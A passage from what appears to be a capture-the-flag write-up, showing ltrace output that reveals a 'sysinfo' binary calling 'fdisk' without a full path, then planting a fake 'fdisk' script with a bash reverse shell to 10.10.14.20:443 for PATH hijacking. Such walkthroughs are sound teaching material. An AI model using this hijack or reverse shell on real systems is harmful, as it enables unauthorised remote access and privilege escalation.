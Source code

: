 ```
bugs		: fxsave_leak sysret_ss_attrs spectre_v1 spectre_v2 spec_store_bypass
bogomips	: 5988.75
TLB size	: 3072 4K pages
clflush size	: 64
cache_alignment	: 64
address sizes	: 43 bits physical, 48 bits virtual
power management:

====================MEM Usage=====================
              total        used        free      shared  buff/cache   available
Mem:           3.8G        1.0G        1.9G         34M        946M        2.6G
Swap:          1.0G          0B        1.0G

```

### ltrace

Running `sysinfo` with `ltrace` prints out the calls made outside the binary. There’s a ton of output, but looking through it, there’s a line that jumps out at me:

```

theseus@ubuntu:/$ ltrace sysinfo
...[snip]...
popen("fdisk -l", "r")                           = 0x55e43e4e9280                 
fgets(fdisk: cannot open /dev/loop0: Permission denied
fdisk: cannot open /dev/loop1: Permission denied
fdisk: cannot open /dev/loop2: Permission denied
fdisk: cannot open /dev/loop3: Permission denied                                                   
fdisk: cannot open /dev/loop4: Permission denied
...[snip]...

```

`popen` is another way to [open a process](https://man7.org/linux/man-pages/man3/popen.3.html) on Linux. The binary is making a call to `fdisk`, which is fine, except that it is doing so without specifying the full path. This leave the binary vulnerable to path hijacking.

### Shell

I’ll create a reverse shell script in `/dev/shm`:

```

theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1'
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.20/443 0>&1
theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1' > fdisk
theseus@ubuntu:/dev/shm$ chmod +x fdisk 

```
